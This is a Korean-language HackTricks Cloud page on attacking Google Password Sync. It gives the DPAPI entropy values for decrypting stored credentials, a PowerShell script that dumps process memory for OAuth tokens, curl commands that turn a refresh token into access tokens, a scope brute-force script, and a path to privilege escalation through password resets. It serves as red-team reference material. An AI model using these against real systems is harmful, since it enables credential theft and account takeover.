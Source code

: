 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

이것은 Google이 **AD와 Workspace 간의 사용자 비밀번호를 동기화하기 위해 제공하는 바이너리 및 서비스**입니다. 사용자가 AD에서 비밀번호를 변경할 때마다 Google에 설정됩니다.

`C:\Program Files\Google\Password Sync`에 설치되며, 여기에서 구성할 수 있는 바이너리 `PasswordSync.exe`와 계속 실행되는 서비스인 `password_sync_service.exe`를 찾을 수 있습니다.

### GPS - Configuration

이 바이너리(및 서비스)를 구성하려면 **Workspace에서 Super Admin 주체에 대한 액세스를 제공해야 합니다**:

* Google을 통해 **OAuth**로 로그인한 후 **레지스트리에 토큰을 저장합니다(암호화됨)**
* GUI가 있는 도메인 컨트롤러에서만 사용 가능
* **Workspace 사용자 관리** 권한이 있는 **GCP의 서비스 계정 자격 증명(json 파일)** 제공
* 이러한 자격 증명은 만료되지 않으므로 악용될 수 있어 매우 나쁜 아이디어입니다.
* SA가 Workspace에 대한 액세스를 갖는 것은 매우 나쁜 아이디어입니다. SA가 GCP에서 손상될 경우 Workspace로 피벗할 수 있습니다.
* Google은 GUI가 없는 도메인 제어를 위해 이를 요구합니다.
* 이러한 자격 증명도 레지스트리에 저장됩니다.

AD와 관련하여 현재 **응용 프로그램 컨텍스트, 익명 또는 특정 자격 증명**을 사용하도록 지정할 수 있습니다. 자격 증명 옵션이 선택되면 **사용자 이름**은 **디스크**의 파일에 저장되고 **비밀번호**는 **암호화되어** **레지스트리**에 저장됩니다.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

파일 **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**에서 구성의 일부를 찾을 수 있으며, 여기에는 구성된 AD의 **`baseDN`**과 사용 중인 자격 증명의 **`username`**이 포함됩니다.

레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`**에서 **암호화된 새로 고침 토큰**과 AD 사용자(있는 경우)의 **암호화된 비밀번호**를 찾을 수 있습니다. 또한, 토큰 대신 **SA 자격 증명**이 사용되는 경우, 해당 레지스트리 주소에서 암호화된 자격 증명도 찾을 수 있습니다. 이 레지스트리 내의 **값**은 **관리자**만 **액세스**할 수 있습니다.

암호화된 **비밀번호**(있는 경우)는 키 **`ADPassword`** 내에 있으며, **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 해독하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 다음 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

암호화된 토큰(있는 경우)은 키 **`AuthToken`** 내에 있으며, **`CryptProtectData`** API를 사용하여 암호화됩니다. 이를 해독하려면 비밀번호 동기화를 구성한 사용자와 동일해야 하며, **`CryptUnprotectData`**를 사용할 때 다음 **엔트로피**를 사용해야 합니다: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
또한, **`0123456789abcdefghijklmnopqrstv`** 사전을 사용하여 base32hex로 인코딩됩니다.

엔트로피 값은 도구를 사용하여 발견되었습니다. 이 도구는 **`CryptUnprotectData`** 및 **`CryptProtectData`**에 대한 호출을 모니터링하도록 구성되었으며, 그런 다음 `PasswordSync.exe`를 실행하고 모니터링하는 데 사용되었습니다. 이 도구는 구성된 비밀번호와 인증 토큰을 처음에 해독하며, 두 경우 모두 사용된 엔트로피 값을 **표시합니다**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

이 API 호출의 입력 또는 출력에서 **해독된** 값을 볼 수 있는 것도 주목할 만합니다(Winpeas가 작동을 멈춘 경우).

Password Sync가 **SA 자격 증명으로 구성된 경우**, 레지스트리 **`HKLM\Software\Google\Google Apps Password Sync`** 내의 키에 저장됩니다.

### GPS - Dumping tokens from memory

GCPW와 마찬가지로 `PasswordSync.exe` 및 `password_sync_service.exe` 프로세스의 메모리를 덤프할 수 있으며, 이미 생성된 경우 새로 고침 및 액세스 토큰을 찾을 수 있습니다.\
AD 구성 자격 증명도 찾을 수 있을 것입니다.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 리프레시 토큰으로 액세스 토큰 생성하기

리프레시 토큰을 사용하여 다음 명령에 지정된 클라이언트 ID와 클라이언트 비밀을 사용하여 액세스 토큰을 생성할 수 있습니다:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
리프레시 토큰이 있더라도, 액세스 토큰을 생성하는 애플리케이션에서 지원하는 **스코프만 요청할 수 있기 때문에** 액세스 토큰에 대한 스코프를 요청하는 것은 불가능합니다.

또한, 리프레시 토큰은 모든 애플리케이션에서 유효하지 않습니다.
{% endhint %}

기본적으로 GPS는 사용자가 모든 가능한 OAuth 스코프에 접근할 수 없으므로, 다음 스크립트를 사용하여 `refresh_token`으로 `access_token`을 생성하는 데 사용할 수 있는 스코프를 찾을 수 있습니다:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

그리고 이것은 제가 작성 당시 받은 출력입니다:
```
https://www.googleapis.com/auth/admin.directory.user
```
어떤 범위를 지정하지 않으면 얻는 것과 동일합니다.

{% hint style="danger" %}
이 범위로 **기존 사용자의 비밀번호를 수정하여 권한을 상승시킬 수 있습니다**.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
